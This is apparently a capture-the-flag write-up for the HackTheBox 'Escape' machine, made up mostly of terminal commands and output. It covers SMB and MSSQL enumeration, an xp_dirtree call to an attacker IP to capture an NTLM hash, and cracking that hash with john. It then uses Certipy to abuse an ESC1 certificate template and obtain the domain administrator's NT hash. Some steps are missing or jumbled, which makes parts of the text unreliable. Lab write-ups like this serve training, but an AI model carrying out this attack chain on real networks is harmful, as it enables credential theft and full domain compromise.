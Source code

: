```yaml
---
title: HackTheBox-Escape
date: 2024-12-24 23:20:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [MSSQL, ESC1]     # TAG names should always be lowercase
---
```


## SMB-enum
    ➜  escape nxc smb 10.10.11.202
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)

    ➜  escape smbclient -L \\DC
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Public          Disk      
            SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.


    For new hired and those that are still waiting their users to be created and perms assigned, can sneak a peek at the Database with
    user PublicUser and password GuestUserCantWrite1 .

## MSSQL

    ➜  escape nxc mssql DC -u 'PublicUser' -p 'GuestUserCantWrite1' --local-auth
    MSSQL       10.10.11.202    1433   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
    MSSQL       10.10.11.202    1433   DC               [+] DC\PublicUser:GuestUserCantWrite1 

### access as guest

    ➜  escape impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
    [*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
    [!] Press help for extra shell commands
    SQL (PublicUser  guest@master)> 

### MSSQL-enum-abuse

    SQL (PublicUser  guest@master)> SELECT name FROM master.dbo.sysdatabases;
    name     
    ------   
    master   

    tempdb   

    model    

    msdb

    those are all default databases


    ------------   -----   ----   
    SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.4\share', 1, 1
    subdirectory   depth   file   
    ------------   -----   ----
### crack hash

    ➜  escape john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REGGIE1234ronnie (sql_svc) 

## winrm-enum


    2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
    2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'

## ADCS

    ➜  escape nxc ldap DC -u 'Ryan.Cooper' -p 'NuclearMosquito3' -M adcs
    SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.202    636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
    ADCS        10.10.11.202    389    DC               [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
    ADCS        10.10.11.202    389    DC               Found PKI Enrollment Server: dc.sequel.htb
    ADCS        10.10.11.202    389    DC               Found CN: sequel-DC-CA

### find vuln

    ➜  escape certipy-ad find -u Ryan.Cooper -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled


    ➜  escape cat 20241224072819_Certipy.txt
    Certificate Authorities
    0
        CA Name                             : sequel-DC-CA
        DNS Name                            : dc.sequel.htb
        Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
        Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
        Certificate Validity Start          : 2022-11-18 20:58:46+00:00
        Certificate Validity End            : 2121-11-18 21:08:46+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
        Owner                             : SEQUEL.HTB\Administrators
        Access Rights
            ManageCertificates              : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            ManageCa                        : SEQUEL.HTB\Administrators
                                            SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
            Enroll                          : SEQUEL.HTB\Authenticated Users
    Certificate Templates
    0
        Template Name                       : UserAuthentication
        Display Name                        : UserAuthentication
        Certificate Authorities             : sequel-DC-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : True
        Certificate Name Flag               : EnrolleeSuppliesSubject
        Enrollment Flag                     : PublishToDs
                                            IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Client Authentication
                                            Secure Email
                                            Encrypting File System
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 10 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
        Enrollment Permissions
            Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Domain Users
                                            SEQUEL.HTB\Enterprise Admins
        Object Control Permissions
            Owner                           : SEQUEL.HTB\Administrator
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
        [!] Vulnerabilities
        ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication

## ESC1

    ➜  escape certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 14
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

OR OR OR

    ➜  escape certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 15
    [*] Got certificate with UPN 'administrator@sequel.htb'
    [*] Certificate has no object SID

### crack-certipy-hash

    ➜  escape ntpdate -q sequel.htb
    2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap

#### faketime

    ➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sequel.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee

Video Walwalkthrough
[WATCH!](https://youtu.be/Ud5HP6xTJok)